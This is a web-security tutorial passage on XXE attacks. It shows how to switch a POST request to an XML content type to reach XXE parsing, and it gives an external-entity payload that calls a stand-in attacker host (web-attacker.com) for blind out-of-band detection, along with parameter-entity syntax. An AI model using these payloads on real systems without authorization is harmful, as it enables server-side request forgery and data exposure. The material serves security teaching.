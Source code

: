 ### XXE Attacks via modified content type

Most POST requests use a default content type that is generated by HTML forms, such as `application/x-www-form-urlencoded`. Some web sites expect to receive requests in this format but will tolerate other content types, including XML.

For example, if a normal request contains the following:

```http
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar 
```

Then you might be able submit the following request, with the same result:

```http
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo> 
```

If the application tolerates requests containing XML in the message body, and parses the body content as XML, then you can reach the hidden XXE attack surface simply by reformatting requests to use the XML format.

### Detecting Blind XXE using out-of-band (OAST) techniques

You can often detect blind XXE using the same technique as for XXE SSRF attacks but triggering the out-of-band network interaction to a system that you control. For example, you would define an external entity as follows

`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>`

You would then make use of the defined entity in a data value within the XML.

This XXE attack causes the server to make a back-end HTTP request to the specified URL. The attacker can monitor for the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful.

Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:

`<!ENTITY % myparameterentity "my parameter entity value" >`

And second, parameter entities are referenced using the percent character instead of the usual ampersand:

`%myparameterentity;`
